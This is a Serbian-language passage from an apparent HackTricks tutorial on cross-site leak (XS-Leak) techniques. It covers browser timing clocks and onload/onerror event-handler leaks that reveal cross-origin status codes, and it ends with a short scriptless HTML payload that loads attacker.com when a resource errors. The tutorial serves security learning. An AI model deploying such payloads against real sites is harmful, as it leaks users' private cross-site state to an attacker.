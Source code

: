 \
Koristite [**Trickest**](https://trickest.com/?utm\_campaign=hacktrics\&utm\_medium=banner\&utm\_source=hacktricks) da lako izgradite i **automatizujete radne tokove** pokretane najnaprednijim alatima zajednice.\
Pristupite danas:

{% embed url="https://trickest.com/?utm_campaign=hacktrics&utm_medium=banner&utm_source=hacktricks" %}

## **Tehnike zasnovane na vremenu**

Neke od sledećih tehnika koristiće vreme kao deo procesa za otkrivanje razlika u mogućim stanjima web stranica. Postoje različiti načini merenja vremena u web pregledaču.

**Satovi**: API [performance.now()](https://developer.mozilla.org/en-US/docs/Web/API/Performance/now) omogućava programerima da dobiju merenja visoke rezolucije vremena.\
Postoji značajan broj API-ja koje napadači mogu zloupotrebiti kako bi kreirali implicitne satove: [Broadcast Channel API](https://developer.mozilla.org/en-US/docs/Web/API/Broadcast\_Channel\_API), [Message Channel API](https://developer.mozilla.org/en-US/docs/Web/API/MessageChannel), [requestAnimationFrame](https://developer.mozilla.org/en-US/docs/Web/API/window/requestAnimationFrame), [setTimeout](https://developer.mozilla.org/en-US/docs/Web/API/WindowOrWorkerGlobalScope/setTimeout), CSS animacije i drugi.\
Za više informacija: [https://xsleaks.dev/docs/attacks/timing-attacks/clocks](https://xsleaks.dev/docs/attacks/timing-attacks/clocks/).

## Tehnike rukovaoca događajima

### Onload/Onerror

* **Metodi uključivanja**: Okviri, HTML elementi
* **Detektovana razlika**: Kod statusa
* **Više informacija**: [https://www.usenix.org/conference/usenixsecurity19/presentation/staicu](https://www.usenix.org/conference/usenixsecurity19/presentation/staicu), [https://xsleaks.dev/docs/attacks/error-events/](https://xsleaks.dev/docs/attacks/error-events/)
* **Rezime**: ako se pokuša učitavanje resursa i događaji onerror/onload se pokrenu kada se resurs uspešno/neuspešno učita, moguće je saznati kod statusa.
* **Primer koda**: [https://xsinator.com/testing.html#Event%20Handler%20Leak%20(Script)](https://xsinator.com/testing.html#Event%20Handler%20Leak%20\(Script\))

{% content-ref url="cookie-bomb-+-onerror-xs-leak.md" %}
[cookie-bomb-+-onerror-xs-leak.md](cookie-bomb-+-onerror-xs-leak.md)
{% endcontent-ref %}

Primer koda pokušava da **učita objekte skriptova iz JS-a**, ali se **drugi tagovi** poput objekata, stilova, slika, zvukova takođe mogu koristiti. Takođe, moguće je direktno ubaciti **tag** i deklarisati događaje `onload` i `onerror` unutar taga (umesto da se ubacuje iz JS-a).

Postoji i verzija ovog napada bez skripti:

```html
<object data="//example.com/404">
<object data="//attacker.com/?error"></object>
</object>
```
